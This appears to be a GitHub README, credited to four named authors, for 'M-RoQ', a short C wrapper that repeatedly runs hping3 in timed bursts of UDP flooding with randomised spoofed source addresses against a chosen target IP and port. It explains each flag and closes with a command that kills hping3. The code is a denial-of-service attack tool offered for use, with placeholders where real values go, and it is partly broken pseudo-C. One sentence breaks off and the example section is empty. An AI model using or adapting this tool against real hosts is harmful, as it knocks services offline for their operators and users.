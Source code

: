 # Welcome to GitHub Desktop!

The M-RoQ (Manipulated-RoQ) software was developed to manipulates the flooding of the Hping3 software. The aim is that the      

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <time.h>
#include <unistd.h>

main()
{
	while(<time in seconds>)
	{
		system("timeout <time in miliseconds> hping3 --rand-source --flood -2 <dst IP> -p <dst PORT> -d <packet lenght> &");
		usleep(<time in miliseconds>);
        time in seconds++;
	}
    system("killall -9 hping3");
}

Where <time in seconds> represents the total time that RoQ attack will act. The timeout command represents the total time in miliseconds that the attack traffic will punish the victim. The hping3 is the flooding DDoS software that will generate the traffic. The --rand-source is the option related to the IP manipulation. the --flood option is related the huge amount o data traffic to sent. the -2 option means that the message sent is UDP. The <dst IP> and <dst PORT> options means the IP target and PORT targe, respectively. The <packet lenght> option means the lenght of the packet sent.

Finally, the system("killall -9 hping3") command kills the hping3 software. 

An example is:



Authors:
Vinícius de Miranda Rios
Pedro R. M. Inácio 
Damien Magoni
Mário M. Freire